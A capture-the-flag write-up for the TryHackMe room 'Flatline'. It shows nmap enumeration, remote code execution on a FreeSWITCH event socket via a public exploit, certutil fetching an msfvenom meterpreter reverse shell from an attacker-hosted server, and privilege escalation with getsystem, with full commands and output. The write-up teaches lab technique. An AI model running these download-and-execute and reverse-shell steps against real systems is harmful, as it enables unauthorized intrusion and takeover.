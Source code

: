 ```yaml
---
title: "Flatline"
date: 2025-02-19
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Flatline
categories: [TryHackMe, Easy]
tags: [linux, metasploit, rce]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Flatline</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>How low are your morals?</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Windows</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/flatline">https://tryhackme.com/room/flatline</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Flatline.

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -Pn -p- 10.10.99.46
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-11 06:46 EDT
  Nmap scan report for 10.10.99.46
  Host is up (0.047s latency).
  Not shown: 65533 filtered tcp ports (no-response)
  PORT     STATE SERVICE
  3389/tcp open  ms-wbt-server
  8021/tcp open  ftp-proxy

  Nmap done: 1 IP address (1 host up) scanned in 105.01 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -Pn -p 3389,8021 10.10.99.46
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-11 06:48 EDT
  Nmap scan report for 10.10.99.46
  Host is up (0.040s latency).

  PORT     STATE SERVICE          VERSION
  3389/tcp open  ms-wbt-server    Microsoft Terminal Services
  | ssl-cert: Subject: commonName=WIN-EOM4PK0578N
  | Not valid before: 2025-03-10T10:44:58
  |_Not valid after:  2025-09-09T10:44:58
  |_ssl-date: 2025-03-11T10:49:00+00:00; -9s from scanner time.
  | rdp-ntlm-info: 
  |   Target_Name: WIN-EOM4PK0578N
  |   NetBIOS_Domain_Name: WIN-EOM4PK0578N
  |   NetBIOS_Computer_Name: WIN-EOM4PK0578N
  |   DNS_Domain_Name: WIN-EOM4PK0578N
  |   DNS_Computer_Name: WIN-EOM4PK0578N
  |   Product_Version: 10.0.17763
  |_  System_Time: 2025-03-11T10:48:55+00:00
  8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
  Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

  Host script results:
  |_clock-skew: mean: -9s, deviation: 0s, median: -9s

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 12.70 seconds
```
From here I proceeded the analysis port by port.

## Port 8021 Analysis

I began by researching the `freeswitch-event FreeSWITCH mod_event_socket` and discovered an interesting exploit on the <a href="https://www.exploit-db.com/exploits/47799">Exploit Database</a>. By executing the exploit, I was able to run commands on the system. Through this Remote Code Execution (RCE), I successfully retrieved the user flag:
```bash
$ python3 exploit.py 10.10.99.46 "whoami"                                                                                 
Authenticated
Content-Type: api/response
Content-Length: 25

win-eom4pk0578n\nekrotic
$ python3 exploit.py 10.10.99.46 "type C:\\Users\\Nekrotic\\Desktop\\user.txt"
Authenticated
Content-Type: api/response
Content-Length: 38

THM{[removed]} 
```

Next, I attempted to download an arbitrary file from my locally spawned webserver:
```bash
$ python3 exploit.py 10.10.99.46 "certutil.exe -urlcache -split -f http://[attackerip]/file.exe file.exe"
Authenticated
Content-Type: api/response
Content-Length: 150

10.10.99.46 - - [11/Mar/2025 07:12:02] code 404, message File not found
10.10.99.46 - - [11/Mar/2025 07:12:02] "GET /file.exe HTTP/1.1" 404 -
```

Since I was able to upload arbitrary files, I created and uploaded a malicious reverse shell using `certutil.exe`: 
```bash
$ msfvenom -p windows/meterpreter_reverse_tcp LHOST=[attackerip] LPORT=4444 -f exe > metasploit.exe
$ python3 -m http.server -b [attackerip] 80
$ python3 exploit.py 10.10.99.46 "certutil.exe -urlcache -split -f http://[attackerip]/metasploit.exe metasploit.exe"
  Authenticated
  Content-Type: api/response
  Content-Length: 94

  ****  Online  ****
    000000  ...
    01204a
  CertUtil: -URLCache command completed successfully.
```

To receive the connection, I used Metasploit's multi-handler. I set the required options and started the handler. After that, I executed the `metasploit.exe` and received the Meterpreter shell:
```bash
msf6 exploit(multi/handler) >
msf6 exploit(multi/handler) > set lhost [attackerip]
lhost => [attackerip]
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > set payload windows/meterpreter_reverse_tcp 
payload => windows/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on [attackerip]:4444 
[*] Meterpreter session 1 opened ([attackerip]:4444 -> 10.10.82.191:49835) at 2025-03-11 07:33:58 -0400

meterpreter >
```

Great! I gained initial access and was able to elevate my privileges using the Meterpreter's built-in `getsystem` command and retrieved the root flag:
```bash
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > cd C:\\Users\\Nekrotic\\Desktop
meterpreter > cat root.txt
THM{[removed]]}
```

solved! :)